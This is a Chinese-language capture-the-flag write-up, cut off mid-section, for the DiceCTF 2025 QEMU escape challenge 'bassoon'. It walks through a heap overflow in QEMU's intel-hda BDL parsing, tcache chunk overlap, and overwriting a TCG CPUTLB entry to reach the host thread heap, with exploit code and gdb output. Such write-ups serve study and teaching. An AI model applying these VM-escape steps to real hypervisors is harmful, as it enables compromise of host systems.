

附官方题解：[dicectf-quals-2025-challenges/pwn/bassoon](https://github.com/dicegang/dicectf-quals-2025-challenges/tree/main/pwn/bassoon)

# 题目信息

```
pwn/bassoon

enzocut

0 solves / 500 points

Tame the noise like a professional bassooner.

nc dicec.tf 32079
```


# 题目分析

参考：

* [qemu源码](https://gitlab.com/qemu-project/qemu/-/tree/0f15892acaf3f50ecc20c6dad4b3ebdd701aa93e)
* [intel-hda.c](https://gitlab.com/qemu-project/qemu/-/blob/0f15892acaf3f50ecc20c6dad4b3ebdd701aa93e/hw/audio/intel-hda.c)

## 漏洞点

patch修改的是`haintel_hda_parse_bdl`函数，构造了一处明显的溢出：

```c
/* hw\audio\intel-hda.c */
static void intel_hda_parse_bdl(IntelHDAState *d, IntelHDAStream *st)
{
    hwaddr addr;
    uint8_t buf[16];
    uint32_t i;

    addr = intel_hda_addr(st->bdlp_lbase, st->bdlp_ubase); // bdlp_ubase和bdlp_lbase是BDL基址的高32bit和低32bit
    st->bentries = st->lvi +1; // lvi是逻辑视图索引，bentries是BDL的条目数
    g_free(st->bpl);
    st->bpl = g_new(bpl, st->bentries); // 从堆上为st->bpl申请st->bentries*0x10大小的内存
    for (i = 0; i <= st->bentries; i++, addr += 16) { // <----- 可以实现0x10bytes的堆溢出
        pci_dma_read(&d->pci, addr, buf, 16);
        st->bpl[i].addr  = le64_to_cpu(*(uint64_t *)buf);
        st->bpl[i].len   = le32_to_cpu(*(uint32_t *)(buf + 8));
        st->bpl[i].flags = le32_to_cpu(*(uint32_t *)(buf + 12));
        dprint(d, 1, "bdl/%d: 0x%" PRIx64 " +0x%x, 0x%x\n",
               i, st->bpl[i].addr, st->bpl[i].len, st->bpl[i].flags);
    }
    st->bsize = st->cbl;
    st->lpib  = 0;
    st->be    = 0;
    st->bp    = 0;
}
```

变量说明：

* `intel_hda_parse_bdl` 函数：用于解析和处理音频缓冲区描述符列表（BDL, Buffer Descriptor List）的数据
* `st`：`IntelHDAStream`类型结构体指针，包含了与 HDA 流（即音频数据传输）的状态和寄存器信息相关的多个字段。主要包含：
  * 寄存器：如 `ctl`（控制寄存器）、`cbl`（缓冲区大小）、`bdlp_lbase` 和 `bdlp_ubase`（BDL基址的低32bit和高32bit）等。
  * 状态字段：`bpl` 是一个指向 `bpl` 数组的指针，表示音频缓冲区列表。`bentries` 是 BDL 条目的数量，`bsize` 是缓冲区大小，`be` 和 `bp` 可能代表缓冲区的结尾和当前位置。
* `bpl`：`bpl`类型结构体数组，用于存储音频缓冲区列表（Buffer Position List）的信息，其中
  * `addr`：表示音频数据缓冲区的物理地址（在内存中的位置），这个地址指向存储音频数据的实际缓冲区。
  * `len`：表示该缓冲区的大小，即音频数据的长度。
  * `flags`：标志字段，通常用于标记缓冲区的状态（例如是否是有效的缓冲区，或者该缓冲区是否已经被处理等）。这个字段的具体含义依赖于系统的实现。

```c
typedef struct IntelHDAStream IntelHDAStream;

typedef struct bpl {
    uint64_t addr;
    uint32_t len;
    uint32_t flags;
} bpl;

struct IntelHDAStream {
    /* registers */
    uint32_t ctl;
    uint32_t lpib;
    uint32_t cbl;
    uint32_t lvi;
    uint32_t fmt;
    uint32_t bdlp_lbase;
    uint32_t bdlp_ubase;

    /* state */
    bpl      *bpl;
    uint32_t bentries;
    uint32_t bsize, be, bp;
};
```

**`st->bpl`为堆内存，可以实现0x10bytes的堆溢出**。


## 利用路径

`haintel_hda_parse_bdl`函数有两处调用，一处在`intel_hda_post_load`中被调用，而`intel_hda_post_load`作为`static const VMStateDescription vmstate_intel_hda`的`.post_load`成员，在`vmstate.c:vmstate_load_state()`函数被调用，应该不是我们要找的利用点。

另一处在`intel_hda_set_st_ctl`中被调用：

```c
/* hw\audio\intel-hda.c:576 */

static void intel_hda_set_st_ctl(IntelHDAState *d, const IntelHDAReg *reg, uint32_t old)
{
    bool output = reg->stream >= 4;
    IntelHDAStream *st = d->st + reg->stream;

    if (st->ctl & 0x01) {
        /* reset */
        dprint(d, 1, "st #%d: reset\n", reg->stream);
        st->ctl = SD_STS_FIFO_READY << 24 | SD_CTL_STREAM_RESET;
    }
    if ((st->ctl & 0x02) != (old & 0x02)) {
        uint32_t stnr = (st->ctl >> 20) & 0x0f;
        /* run bit flipped */
        if (st->ctl & 0x02) {
            /* start */
            dprint(d, 1, "st #%d: start %d (ring buf %d bytes)\n",
                   reg->stream, stnr, st->cbl);
            intel_hda_parse_bdl(d, st);  // <----- Here
            intel_hda_notify_codecs(d, stnr, true, output);
        } else {
            /* stop */
            dprint(d, 1, "st #%d: stop %d\n", reg->stream, stnr);
            intel_hda_notify_codecs(d, stnr, false, output);
        }
    }
    intel_hda_update_irq(d);
}
```

查找`intel_hda_set_st_ctl`的引用，该函数为`regtab[ST_REG(_i, ICH6_REG_SD_CTL)]`的`whandler(write handler)`。再往前找引用路径，`intel_hda_mmio_write`调用`intel_hda_reg_write`设置`addr`对应寄存器的值，并在`reg->whandler`存在时调用该句柄。

另外还可以通过`regtab[ST_REG(_n, _o)]`设置`st`中我们能用到的另外几个寄存器的值，包括：

* `ST_REG(_i, ICH6_REG_SD_BDLPL)`：设置`st->bdlp_lbase`，要求0x80对齐
* `ST_REG(_i, ICH6_REG_SD_BDLPU)`：设置`st->bdlp_ubase`
* `ST_REG(_i, ICH6_REG_SD_LVI)`：设置`st->lvi`，最大0xff
* ...

```c
/* hw\audio\intel-hda-defs.h */
#define ICH6_REG_SD_CTL			0x00
#define ICH6_REG_SD_LVI			0x0c
#define ICH6_REG_SD_BDLPL		0x18
#define ICH6_REG_SD_BDLPU		0x1c

/* hw\audio\intel-hda.c */

struct IntelHDAReg {
    const char *name;      /* register name */
    uint32_t   size;       /* size in bytes */
    uint32_t   reset;      /* reset value */
    uint32_t   wmask;      /* write mask */
    uint32_t   wclear;     /* write 1 to clear bits */
    uint32_t   offset;     /* location in IntelHDAState */
    uint32_t   shift;      /* byte access entries for dwords */
    uint32_t   stream;
    void       (*whandler)(IntelHDAState *d, const IntelHDAReg *reg, uint32_t old); // <----- Here
    void       (*rhandler)(IntelHDAState *d, const IntelHDAReg *reg);
};

#define ST_REG(_n, _o) (0x80 + (_n) * 0x20 + (_o))

static const struct IntelHDAReg regtab[] = {
    ...
#define HDA_STREAM(_t, _i)                                            \
    [ ST_REG(_i, ICH6_REG_SD_CTL) ] = {                               \
        .stream   = _i,                                               \
        .name     = _t stringify(_i) " CTL",                          \
        .size     = 4,                                                \
        .wmask    = 0x1cff001f,                                       \
        .offset   = offsetof(IntelHDAState, st[_i].ctl),              \
        .whandler = intel_hda_set_st_ctl,                             \
    },                                                                \
    ...                                                               \
    [ ST_REG(_i, ICH6_REG_SD_LVI) ] = {                               \
        .stream   = _i,                                               \
        .name     = _t stringify(_i) " LVI",                          \
        .size     = 2,                                                \
        .wmask    = 0x00ff,                                           \
        .offset   = offsetof(IntelHDAState, st[_i].lvi),              \
    },                                                                \
    ...                                                               \
    [ ST_REG(_i, ICH6_REG_SD_BDLPL) ] = {                             \
        .stream   = _i,                                               \
        .name     = _t stringify(_i) " BDLPL",                        \
        .size     = 4,                                                \
        .wmask    = 0xffffff80,                                       \
        .offset   = offsetof(IntelHDAState, st[_i].bdlp_lbase),       \
    },                                                                \
    [ ST_REG(_i, ICH6_REG_SD_BDLPU) ] = {                             \
        .stream   = _i,                                               \
        .name     = _t stringify(_i) " BDLPU",                        \
        .size     = 4,                                                \
        .wmask    = 0xffffffff,                                       \
        .offset   = offsetof(IntelHDAState, st[_i].bdlp_ubase),       \
    },                                                                \
    ...

    HDA_STREAM("IN", 0)
    HDA_STREAM("IN", 1)
    HDA_STREAM("IN", 2)
    HDA_STREAM("IN", 3)

    HDA_STREAM("OUT", 4)
    HDA_STREAM("OUT", 5)
    HDA_STREAM("OUT", 6)
    HDA_STREAM("OUT", 7)
};

static void intel_hda_reg_write(IntelHDAState *d, const IntelHDAReg *reg, uint32_t val,
                                uint32_t wmask)
{
    uint32_t *addr;
    uint32_t old;
    ...
    addr = intel_hda_reg_addr(d, reg);
    old = *addr;

    if (reg->shift) {
        val <<= reg->shift;
        wmask <<= reg->shift;
    }
    // *addr = val
    wmask &= reg->wmask;
    *addr &= ~wmask;
    *addr |= wmask & val;
    *addr &= ~(val & reg->wclear);

    if (reg->whandler) {
        reg->whandler(d, reg, old); // <----- 【3】
    }
}

static void intel_hda_mmio_write(void *opaque, hwaddr addr, uint64_t val,
                                 unsigned size)
{
    IntelHDAState *d = opaque;
    const IntelHDAReg *reg = intel_hda_reg_find(d, addr); // reg = regtab+addr;

    intel_hda_reg_write(d, reg, val, MAKE_64BIT_MASK(0, size * 8)); // <----- 【2】
}

static const MemoryRegionOps intel_hda_mmio_ops = {
    .read = intel_hda_mmio_read,
    .write = intel_hda_mmio_write, // <----- 【1】
    .impl = {
        .min_access_size = 1,
        .max_access_size = 4,
    },
    .endianness = DEVICE_NATIVE_ENDIAN,
};
```


## intel_hda设备

```c {hide=true}
/* include\hw\pci\pci_ids.h */
#define PCI_VENDOR_ID_INTEL              0x8086

/* hw\audio\intel-hda-defs.h */
#define PCI_CLASS_MULTIMEDIA_HD_AUDIO	0x0403

/* hw\audio\intel-hda.c */
static void intel_hda_realize(PCIDevice *pci, Error **errp)
{
    IntelHDAState *d = INTEL_HDA(pci);
    ...
    memory_region_init(&d->container, OBJECT(d),
                       "intel-hda-container", 0x4000);
    memory_region_init_io(&d->mmio, OBJECT(d), &intel_hda_mmio_ops, d,
                          "intel-hda", 0x2000);
    memory_region_add_subregion(&d->container, 0x0000, &d->mmio);
    ...
}

static void intel_hda_class_init(ObjectClass *klass, void *data)
{
    DeviceClass *dc = DEVICE_CLASS(klass);
    PCIDeviceClass *k = PCI_DEVICE_CLASS(klass);

    k->realize = intel_hda_realize;
    k->exit = intel_hda_exit;
    k->vendor_id = PCI_VENDOR_ID_INTEL;
    k->class_id = PCI_CLASS_MULTIMEDIA_HD_AUDIO;
    device_class_set_legacy_reset(dc, intel_hda_reset);
    dc->vmsd = &vmstate_intel_hda;
    device_class_set_props(dc, intel_hda_properties);
}

static const TypeInfo intel_hda_info = {
    .name          = TYPE_INTEL_HDA_GENERIC,
    .parent        = TYPE_PCI_DEVICE,
    .instance_size = sizeof(IntelHDAState),
    .class_init    = intel_hda_class_init,
    .abstract      = true,
    .interfaces = (InterfaceInfo[]) {
        { INTERFACE_CONVENTIONAL_PCI_DEVICE },
        { },
    },
};
```

根据qemu启动参数，我们使用的是`ich9-intel-hda`：

```c {hide=true}
/* hw\audio\intel-hda.c */
static void intel_hda_class_init_ich9(ObjectClass *klass, void *data)
{
    DeviceClass *dc = DEVICE_CLASS(klass);
    PCIDeviceClass *k = PCI_DEVICE_CLASS(klass);

    k->device_id = 0x293e;
    k->revision = 3;
    set_bit(DEVICE_CATEGORY_SOUND, dc->categories);
    dc->desc = "Intel HD Audio Controller (ich9)";
}

static const TypeInfo intel_hda_info_ich9 = {
    .name          = "ich9-intel-hda",
    .parent        = TYPE_INTEL_HDA_GENERIC,
    .class_init    = intel_hda_class_init_ich9,
};
```


# 解题过程

## Step1: Prepare Overlapped chunk

在`intel_hda_parse_bdl`的`g_malloc`处下断点，查看bins可以发现，tcache中0x100大小的chunk地址一般情况下都是连续的：

```gdb
 ► 0x64defb919941 <intel_hda_parse_bdl+81>     call   g_malloc_n@plt              <g_malloc_n@plt>

tcachebins
0x100 [  7]: 0x7c93003356d0 —▸ 0x7c93003355d0 —▸ 0x7c93003354d0 —▸ 0x7c93003353d0 —▸ 0x7c93003352d0 —▸ 0x7c93003351d0 —▸ 0x7c93003350d0 ◂— 0
```

故我们通过`intel_hda_parse_bdl`可以将7个0x100大小的tcache bin全部申请出来，并利用溢出构造overlap chunk：

```c
    hda_mmio_mem = mmio_init((void *)HDA_VA, 0xfebf0000, 0x2000);

    data = mmap(0, HUGEPAGE_SZ, PROT_READ|PROT_WRITE,
            MAP_FIXED|MAP_PRIVATE|MAP_ANON|MAP_HUGETLB|MAP_POPULATE, -1, 0);
    data_pa = gva_to_gpa(data);
    printf("[*] data_pa: %p\n", (void *)data_pa);

    for (size_t st = 0; st < 8; st++) {
        uint64_t addr = data_pa+0x2000*st;
        mmio_write64(hda_mmio_mem, ST_REG(st, ICH6_REG_SD_BDLPL), addr&0xffffffff);
        //mmio_write64(hda_mmio_mem, ST_REG(st, ICH6_REG_SD_BDLPU), addr>>32); // data_pa只用得到低32bit
    }

    // step1: overlap
    set64(5, 0xf8, 0x415);          // fake chunk6.size
    for (int st = 6; st >= 0; st--) // 为了更直观，chunk地址和st序号都是由小到大，故此处逆序申请
        parse_bdlp(st, 0x10-2);     // chunk size = 0x100
    set64(6, 0x408, 0xf5);          // fake next size
    parse_bdlp(6, 0x41-2);          // free chunk6; alloc 0x410 chunk
```

> [!tips]
>
> 只伪造了size的chunk通过[`_int_free`](https://elixir.bootlin.com/glibc/glibc-2.35/source/malloc/malloc.c#L4420)放进tcache几乎没有什么检查，且当smallbin/largebin中都没有该大小的堆块时（不会再往这个size的tcache中补充堆块），可以再立即将其重新从tcache申请出来。

到这里，我们已经完成了overlap，为后续利用UAF进行任意地址写做好准备。


## Step2: Overwrite CPUTLBEntry

下一步就是要解决利用UAF写哪里的问题。

由于我们无法进行partial overwrite（必须一次性写入申请大小长度的内容），也没有泄露，故只能找一些不需要包含随机化地址的结构作为目标。另外，我们申请的堆块位于线程堆上（chunk有[NON_MAIN_ARENA](https://elixir.bootlin.com/glibc/glibc-2.35/C/ident/NON_MAIN_ARENA)标志），最重要的内容都在主堆上进行分配，而线程堆主要由TCG使用。

这里选择**覆盖TCG fast path CPUTLB table**，该表基本上实现了客户机虚拟地址到主机虚拟地址转换的TLB，每个条目为[CPUTLBEntry](https://elixir.bootlin.com/qemu/v9.2.2/source/include/exec/tlb-common.h#L25)类型，大小为0x20 bytes。每个条目都有3个地址`addr_read/write/code`和一个加数`addend`，**地址为用于读取、写入和代码访问的gva，gva+added即可得到对应的主机地址hva**。由于我们没有泄露，故只能将gva覆盖为固定值，而加数正好能在此基础上计算出正确的hva。

```c
// https://elixir.bootlin.com/qemu/v9.2.2/source/include/exec/tlb-common.h#L22

#define CPU_TLB_ENTRY_BITS 5

/* Minimalized TLB entry for use by TCG fast path. */
typedef union CPUTLBEntry {
    struct {
        uint64_t addr_read;
        uint64_t addr_write;
        uint64_t addr_code;
        /*
         * Addend to virtual address to get host address.  IO accesses
         * use the corresponding iotlb value.
         */
        uintptr_t addend;
    };
    /*
     * Padding to get a power of two size, as well as index
     * access to addr_{read,write,code}.
     */
    uint64_t addr_idx[(1 << CPU_TLB_ENTRY_BITS) / sizeof(uint64_t)];
} CPUTLBEntry;
```

CPUTLB在[`tlb_mmu_resize_locked`](https://elixir.bootlin.com/qemu/v9.2.2/source/accel/tcg/cputlb.c#L212)函数中会在线程堆上被重新分配，该操作要么由[`tlb_flush_by_mmuidx_async_work`](https://elixir.bootlin.com/qemu/v9.2.2/source/accel/tcg/cputlb.c#L377)定期触发（无法很好地控制），要么在单个页面刷新时触发（如果页面很大）。**因此，我们可以使用`invlpg`刷新大页面来触发。**

新的CPUTLB条目数由在100毫秒窗口内计算出的速率决定，因此我们可以在第一次刷新后在cpl0处进行忙循环以获得较低速率，进而缩小表的大小。

```c {hide=true}
// https://elixir.bootlin.com/qemu/v9.2.2/source/include/exec/cpu-defs.h#L58
#define CPU_TLB_DYN_MIN_BITS 6

// https://elixir.bootlin.com/qemu/v9.2.2/source/accel/tcg/cputlb.c#L225
static void tlb_mmu_resize_locked(CPUTLBDesc *desc, CPUTLBDescFast *fast,
                                  int64_t now)
{
    size_t old_size = tlb_n_entries(fast);
    size_t rate;
    size_t new_size = old_size;
    int64_t window_len_ms = 100;
    int64_t window_len_ns = window_len_ms * 1000 * 1000;
    bool window_expired = now > desc->window_begin_ns + window_len_ns;

    if (desc->n_used_entries > desc->window_max_entries) {
        desc->window_max_entries = desc->n_used_entries;
    }
    rate = desc->window_max_entries * 100 / old_size;

    if (rate > 70) {
        new_size = MIN(old_size << 1, 1 << CPU_TLB_DYN_MAX_BITS);
    } else if (rate < 30 && window_expired) {
        size_t ceil = pow2ceil(desc->window_max_entries);
        size_t expected_rate = desc->window_max_entries * 100 / ceil;

        /*
         * Avoid undersizing when the max number of entries seen is just below
         * a pow2. For instance, if max_entries == 1025, the expected use rate
         * would be 1025/2048==50%. However, if max_entries == 1023, we'd get
         * 1023/1024==99.9% use rate, so we'd likely end up doubling the size
         * later. Thus, make sure that the expected use rate remains below 70%.
         * (and since we double the size, that means the lowest rate we'd
         * expect to get is 35%, which is still in the 30-70% range where
         * we consider that the size is appropriate.)
         */
        if (expected_rate > 70) {
            ceil *= 2;
        }
        new_size = MAX(ceil, 1 << CPU_TLB_DYN_MIN_BITS);
    }

    if (new_size == old_size) {
        if (window_expired) {
            tlb_window_reset(desc, now, desc->n_used_entries);
        }
        return;
    }

    g_free(fast->table);
    g_free(desc->fulltlb);

    tlb_window_reset(desc, now, 0);
    /* desc->n_used_entries is cleared by the caller */
    fast->mask = (new_size - 1) << CPU_TLB_ENTRY_BITS;
    fast->table = g_try_new(CPUTLBEntry, new_size);
    desc->fulltlb = g_try_new(CPUTLBEntryFull, new_size);

    /*
     * If the allocations fail, try smaller sizes. We just freed some
     * memory, so going back to half of new_size has a good chance of working.
     * Increased memory pressure elsewhere in the system might cause the
     * allocations to fail though, so we progressively reduce the allocation
     * size, aborting if we cannot even allocate the smallest TLB we support.
     */
    while (fast->table == NULL || desc->fulltlb == NULL) {
        if (new_size == (1 << CPU_TLB_DYN_MIN_BITS)) {
            error_report("%s: %s", __func__, strerror(errno));
            abort();
        }
        new_size = MAX(new_size >> 1, 1 << CPU_TLB_DYN_MIN_BITS);
        fast->mask = (new_size - 1) << CPU_TLB_ENTRY_BITS;

        g_free(fast->table);
        g_free(desc->fulltlb);
        fast->table = g_try_new(CPUTLBEntry, new_size);
        desc->fulltlb = g_try_new(CPUTLBEntryFull, new_size);
    }
}
```

当`rate < 30`时，`new_size = MAX(ceil, 0x40);`，CPUTLB最小申请大小为`0x20*0x40 = 0x800`，所以我们要伪造一个0x810大小的tcache chunk，并使前面构造的overlap chunk能够使用UAF修改CPUTLBEntry。

### 2.1 create overlapped chunk for CPUTLB

在Step1的基础上，伪造一个重叠的0x810大小的chunk：

```c
    /* Step1: overlap */
    set64(1, 0xf8, 0x815);          // fake chunk2.size
    set64(5, 0xf8, 0x415);
    for (int st = 6; st >= 0; st--)
        parse_bdlp(st, 0x10-2);
    set64(6, 0x400, 0x810);         // fake prev_size for chunk2
    set64(6, 0x408, 0xf5);
    parse_bdlp(6, 0x41-2);
```

`INVLPG` 指令本身没有硬性要求只能在内核态下执行，但由于其涉及对内存管理和缓存的直接操作，通常只有内核态程序才会使用该指令，用户态程序无法直接使用，因此我们需要写一个驱动来调用用户态函数（驱动代码和编译过程见Exp）：

```c
    system("sysctl -w vm.nr_hugepages=102400");
    system("insmod kfunc.ko");
    kfunc_fd = open("/dev/kfunc", O_RDWR);
    if (kfunc_fd < 0) {
        perror("open");
        exit(1);
    }

    ...
    // 2.1 create overlapped chunk for CPUTLB
    huge = mmap((void *)HUGE_VA, HUGEPAGE_SZ, PROT_READ|PROT_WRITE,
            MAP_FIXED|MAP_PRIVATE|MAP_ANON|MAP_HUGETLB, -1, 0);
    printf("[*] huge: %p\n", huge);

    // invlpg and loop to resize CPUTLB to 0x810 chunk
    *(uint8_t *)huge = 0;
    kfunc(resize_CPUTLB);
```


### 2.2 hijack CPUTLB

访问`huge`使其映射到物理页面，而后在cpl0内核态运行`invlpg`指令，并进行忙循环以获得较低窗口速率。之后释放我们在chunk2处伪造的0x810大小的chunk，再次刷新页面使CPUTLB申请到这个chunk：

```c
    // 2.2 hijack CPUTLB
    *(uint8_t *)huge = 0;
    mmio_write64(hda_mmio_mem, ST_REG(2, ICH6_REG_SD_LVI), 0x9-2);
    kfunc(hijack_CPUTLB);
    mmio_write64(hda_mmio_mem, ST_REG(2, ICH6_REG_SD_CTL), SD_CTL_STREAM_RESET);
```

在`tlb_set_page_full+734`下断点可以看到原来fake chunk2处被`CPUTLB`申请后，填入`CPUTLBEntry`相应指针和偏移：

```gdb
pwndbg> x /32gx 0x7fa9b4333e30
0x7fa9b4333e30:	0x0000000babe00000	0x0000000babe00000
0x7fa9b4333e40:	0xffffffffffffffff	0x00007f9e11c00000
0x7fa9b4333e50:	0x0000000000401000	0xffffffffffffffff
0x7fa9b4333e60:	0x0000000000401000	0x00007fa9c24bb000
0x7fa9b4333e70:	0xffffffffffffffff	0xffffffffffffffff
0x7fa9b4333e80:	0xffffffffffffffff	0xffffffffffffffff
...
```


#### 可能遇到的问题

实际情况下，由于TCG在`tb_gen_code`（每个基本块调用）内的TCG转换过程中会不断分配0x30大小的chunk。

在`g_free`0x810的堆块时下断点得到buf地址，`watch *(uint64_t *)buf`下断点得到申请堆块的位置：

```gdb {hide=true}
pwndbg> backtrace
#0  _int_malloc (av=av@entry=0x7d61b8000030, bytes=bytes@entry=40) at ./malloc/malloc.c:4150
#1  0x00007d620ffe8139 in __GI___libc_malloc (bytes=40) at ./malloc/malloc.c:3329
#2  0x00007d62102ba739 in g_malloc () at /lib/x86_64-linux-gnu/libglib-2.0.so.0
#3  0x000055c8fecd853a in q_tree_node_new (value=0x7d61cb204240 <code_gen_buffer+52445715>, key=0x7d61cb204260 <code_gen_buffer+52445747>) at ../util/qtree.c:122
#4  q_tree_insert_internal (tree=0x55c90e474c50, key=0x7d61cb204260 <code_gen_buffer+52445747>, value=0x7d61cb204240 <code_gen_buffer+52445715>, replace=0) at ../util/qtree.c:604
#5  0x000055c8feb21f49 in tcg_tb_insert (tb=tb@entry=0x7d61cb204240 <code_gen_buffer+52445715>) at ../tcg/region.c:229
#6  0x000055c8feae7b7a in tb_gen_code (cpu=cpu@entry=0x55c90e477c50, pc=pc@entry=4201327, cs_base=cs_base@entry=0, flags=<optimized out>, cflags=<optimized out>) at ../accel/tcg/translate-all.c:538
#7  0x000055c8feae4fa2 in cpu_exec_loop (cpu=cpu@entry=0x55c90e477c50, sc=sc@entry=0x7d620f3337b0) at ../accel/tcg/cpu-exec.c:987
#8  0x000055c8feae53e1 in cpu_exec_setjmp (cpu=cpu@entry=0x55c90e477c50, sc=sc@entry=0x7d620f3337b0) at ../accel/tcg/cpu-exec.c:1033
#9  0x000055c8feae5a7d in cpu_exec (cpu=cpu@entry=0x55c90e477c50) at ../accel/tcg/cpu-exec.c:1059
#10 0x000055c8fe977bc4 in tcg_cpu_exec (cpu=cpu@entry=0x55c90e477c50) at ../accel/tcg/tcg-accel-ops.c:80
#11 0x000055c8fe97800f in mttcg_cpu_thread_fn (arg=arg@entry=0x55c90e477c50) at ../accel/tcg/tcg-accel-ops-mttcg.c:94
#12 0x000055c8fecd5fe1 in qemu_thread_start (args=<optimized out>) at ../util/qemu-thread-posix.c:541
#13 0x00007d620ffd7ac3 in start_thread (arg=<optimized out>) at ./nptl/pthread_create.c:442
#14 0x00007d6210069850 in clone3 () at ../sysdeps/unix/sysv/linux/x86_64/clone3.S:81
pwndbg> x sizeof( QTreeNode)
0x28:	Cannot access memory at address 0x28
pwndbg> ptype QTreeNode
type = struct _QTreeNode {
 gpointer key;
 gpointer value;
 QTreeNode *left;
 QTreeNode *right;
 gint8 balance;
 guint8 left_child;
 guint8 right_child;
}
```

发现是在TCG翻译过程中申请的0x28大小的`QTreeNode`结构体。（详情见`补充知识 - Qemu TCG`）

为此，我们需要通过将触发堆活动的所有重要操作（`hda_mmio_write`和调用`invlpg`）一次性塞入一个[基本块](https://www.qemu.org/docs/master/devel/tcg-ops.html#basic-blocks)，避免在代码执行过程中产生新的`QTreeNode`分配堆块切分0x810的unsortedbin chunk。

> A TCG *basic block* is a single entry, multiple exit region which corresponds to a list of instructions terminated by a label, or any branch instruction.

```c
#define mmio_write64(mem, offset, value) { \
    (*(volatile uint64_t *)(mem + offset) = value); \
    __sync_synchronize(); \
}
#define invlpg() { \
    __asm__ volatile ( \
        "invlpg (%%rax)" \
        : \
        : "a" (HUGE_VA) \
        : "memory" \
    ); \
}

void hijack_CPUTLB() {
    mmio_write64(HDA_VA, ST_REG(2, ICH6_REG_SD_CTL), SD_CTL_DMA_START);
    invlpg();
}
```

编译后关键指令就在同一个BB中了：



> [!tips]
>
> qemu添加`-d in_asm -D log.txt`参数可以记录**每一次二进制翻译的内容**，log中有每个TB的gva和字节码，见`补充知识 - volatile修饰符 - 调试过程中发现的问题`一节。
>
> 除`in_asm`外还有其他log参数可选，详情参考`qemu-system-x86_64 -d help`。

另外，这一步有一定概率失败，因为堆块布局是随机的，而伪造overlaped chunk时堆块布局如下：

```c
                +----------+----------+ -+             
                |          |     0x815|  |             
                +----------+----------+  |             
                |                     |  |             
                |                     |  |             
                |                     |  |             
                |                     |  +- fake chunk2
             +- +----------+----------+  |             
             |  |          |     0x415|  |             
             |  +----------+----------+  |             
fake chunk6 -+  |                     |  |             
             |  |                     |  |             
             |  |                     |  |             
             |  |                     |  |             
             +- +----------+----------+ -+             
                |     0x810|     0xf5 |                
                +----------+----------+                
                |                     |                
                |xxxxxxxxxxxxxxxxxxxxx|  <--- 这里有可能会空出一部分
                +----------+----------+                
                |          |     0x35 |                
                +----------+----------+                
                |                     |                        
                +---------------------+                
```

伪造的0xf0大小的chunk可能会没有和后续堆块接上，导致consolidate forward的时候报错：

* https://elixir.bootlin.com/glibc/glibc-2.35/source/malloc/malloc.c#L1629
* https://elixir.bootlin.com/glibc/glibc-2.35/source/malloc/malloc.c#L4616


### 2.3 overwrite CPUTLBEntry

CPUTLBEntry在CPUTLB中的序号由gva经过哈希得到，计算方法：

```c
// include\qemu\compiler.h
/* HOST_LONG_BITS is the size of a native pointer in bits. */
#define HOST_LONG_BITS (__SIZEOF_POINTER__ * 8)

// include\exec\tlb-common.h
#define CPU_TLB_ENTRY_BITS (HOST_LONG_BITS == 32 ? 4 : 5)

// accel\tcg\cputlb.c
/* Find the TLB index corresponding to the mmu_idx + address pair.  */
static inline uintptr_t tlb_index(CPUState *cpu, uintptr_t mmu_idx,
                                  vaddr addr)
{
    uintptr_t size_mask = cpu->neg.tlb.f[mmu_idx].mask >> CPU_TLB_ENTRY_BITS;

    return (addr >> TARGET_PAGE_BITS) & size_mask;
}
```

* `cpu->neg.tlb.f[mmu_idx].mask`：CPUTLB大小的掩码，如CPUTLB大小为0x800时，掩码为0x7ff
* `CPU_TLB_ENTRY_BITS`：32位程序为4，64位程序为5，`1<<CPU_TLB_ENTRY_BITS`为CPUTLBEntry的大小
* `TARGET_PAGE_BITS`：通常为12，`1<<CPU_TLB_ENTRY_BITS`为一页的大小

综上，当CPUTLB大小为0x800时，`index = (gva>>12) & (0x7ff>>5)`。

**gva映射到的hva取决于gpa**，因此我们可以通过将gva绑定到固定的gpa（如0）在主机内存映射中获得固定位置。**已知线程堆arena始终位于gpa为0的hva后0x7e00000处。**

恰好当`gva = 0x7e00000`时，`index = 0x7e00 & 0x3f = 0`，即对应的`CPUTLBEntry`将填入`CPUTLB[0]`处，刚好便于我们通过前面的堆块溢出覆盖其指针。

具体利用步骤如下：

1. 利用chunk0溢出覆盖`chunk1.size = 0x115`，使chunk1刚好overlapped能覆盖到`CPUTLB[0].addr_read/write`

2. 将`gva = 0x7e00000`映射到`gpa = 0`，此时映射的`hva1 = 0x7e00000 + CPUTLB[0].added`

   （要映射`gpa=0`需要在命令行执行`sysctl -w vm.mmap_min_addr=0`）

3. 利用chunk1将`CPUTLB[0].addr_read/write`溢出覆盖为 0，`CPUTLB[0].added`保持不变

4. 此时我们对`gva = 0`进行读写，它将命中`CPUTLB[0].addr_read/write`，并将其映射到`hva2 = 0 + CPUTLB[0].added = hva1 - 0x7e00000 `，即线程堆arena的主机地址，之后对`gva=0`处进行读写即对线程堆arena进行读写。

```c
    system("sysctl -w vm.mmap_min_addr=0");

    // 2.3 overwrite CPUTLBEntry
    set64(7, 0x108, 0x35);
    parse_bdlp(7, 0x11-2); // make only 6 chunks in 0x110 tcache bins
    set64(0, 0xf8, 0x115);
    parse_bdlp(0, 0x10-2);

    volatile void *hit = mmio_init((void *)0x7e00000, 0, 0x1000);
    *(uint8_t *)hit = 0;
    parse_bdlp(1, 0x11-2);
```


#### 可能遇到的问题

调试过程中发现，由于0x810的overlapped chunk覆盖了部分其他堆块，导致0x90大小的tcache被破坏：

```gdb
pwndbg> bins
tcachebins
0x90 [  7]: 0x71ba18335460 ◂— 0xfffffff8e45e7cca

pwndbg> x /32gx 0x71ba18334e50
0x71ba18334e50:	0x0000000000000000	0x0000000000000815
0x71ba18334e60:	0xffffffffffffffff	0xffffffffffffffff
...
0x71ba18335460:	0xffffffffffffffff	0xffffffffffffffff <--- 0x90 tcache chunk
0x71ba18335470:	0xffffffffffffffff	0xffffffffffffffff
...
0x71ba18335650:	0xffffffffffffffff	0xffffffffffffffff
0x71ba18335660:	0x0000000000000810	0x00000000000000f5
0x71ba18335670:	0x000071ba18335820	0x000071ba18335860
```

在TCG翻译过程中会申请到这个0x90的堆块（`$r14`为代码长度，也是malloc的size）写入代码，完事free这个堆块就报错了：

```gdb {hide=true}
